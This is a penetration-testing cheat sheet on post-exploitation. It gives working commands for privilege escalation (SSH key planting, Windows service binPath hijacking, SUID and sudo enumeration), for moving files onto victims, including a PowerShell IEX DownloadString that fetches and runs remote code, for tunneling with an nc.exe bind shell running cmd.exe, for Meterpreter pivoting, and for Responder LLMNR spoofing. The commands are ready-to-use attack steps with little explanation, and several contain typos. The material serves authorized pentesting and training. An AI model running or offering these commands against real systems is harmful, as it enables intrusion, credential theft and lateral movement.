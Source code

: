 ```yaml
---
title: Post exploitation
excerpt: "This is a guide for post exploitation"
last_modified_at: 13-01-2022
categories:
- guide
tags:  
- pentest
- post-exploitation
- exploitation
image: /assets/images/cheatsheet/post-exploitation.jpeg
---
```



# Privilege escalation

### SSH
```bash
ssh-keygen -f user # Attack

# Victim
mkdir  (home/)~www-data/
mkdir ~/.ssh/
touch ~/.ssh/authorized_keys
echo "public_key" > ~/.ssh/authorized_keys
ssh www-data@172.0.0.1 -p 2222 -i user
```  

## Windows
### Automatized
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat)  



### Mandatory level
- whoami /groups  

### Services
```powershell
wmic service # List services
wmic service get Name,Sate,PathName | findstr "Running" # Running services
sc query servicename # Informations about a service 
sc qc servicename # Service configurations
sc config servicename binPath="certutil -urlcache -f priv.exe" # Change the path of the file
sc start servicename
```  

## Linux
### Automatized
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)  
- [gtfobins](https://gtfobins.github.io/)  
- [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)  

### SUID/GETUID
```bash
find / -user root -perm -4000 -print 2>/dev/null 
```  

### Permissions
```bash 
sudo -l # Programs that run as sudo

find / -type f -perm 777 2>/dev/null # Files with permissions

ls /etc/cron.* # Check all crontab folders

uname -l # Kernel and SO versions
cat /etc/issue
```  


## Transfer files
```bash
python -m SimpleHTTPServer 80 #Open server
python3 -m http.server 80

# Windows
certutil.exe -urlcache -f [http://172.20.1.6/file.exe](http://172.20.1.6/file.exe) file.exe
powershell.exe wget [http://172.20.1.6/file.exe](http://172.20.1.6/file.exe) -OutFile file.exe
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://172.20.1.6/file.exe','file.exe')
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://172.20.1.6/poc.txt') # Read and execute 
# Windows hex
/usr/share/windows-resources/binaries/upx -9 exec.exe # Compress
exe2hex -x exec.exe -p exec.txt # To hex
nc -l 10.10.10.10 4444 < exec.txt

# Linux
wget http://172.20.1.6/file.exe -O /tm/file.exe
curl http://172.20.1.6/file.exe -o file.exe

scp /source/folder/scp.zip root@191.162.0.2:/destiny/folder #ssh
```  


## Tunneling
```bash
# Windows 
nc.exe -vnlp 5555 -s 127.0.0.1 -e cmd.exe # Attacker
plink.exe -ssh -l user -pw root -R 192.168.0.8:1337:127.0.0.1:5555 192.168.0.8 # Victim
nc -v 127.0.0.1 1337 # Attacker

# Linux
socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr
socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22

ssh www-data@172.0.0.1 -p 2222 -i us -L 3333:127.0.0.1:3306
```


## Pivoting
Meterpreter
```bash
ipconfig # Networks interface
route # Identify network

run autoroute -s 10.0.20.0/24 #Add a route to our machine
use auxiliary/server/sock4a # Create a proxy in port 1080
nano /ect/proxychains.conf # Add this proxy to proxychains
proxychains nmap -v —open -sT -p 110,139 -Pn 10.10.20.0/24 # The network is visible
V
portfwd add -l 110 -p 110 -r 10.20.20.4 # Portfoward  a specific port
nmap -sV -p 110 127.0.0.10 # Can acess this port
```

## Internal pentest
### Responder
A LLMNR & NBT-NS Spoofing Attack.  
```bash
vim /etc/responder/Responder.conf # Configure the ips field RespondTo

responder -I eth0 -Prv # Will list to all
```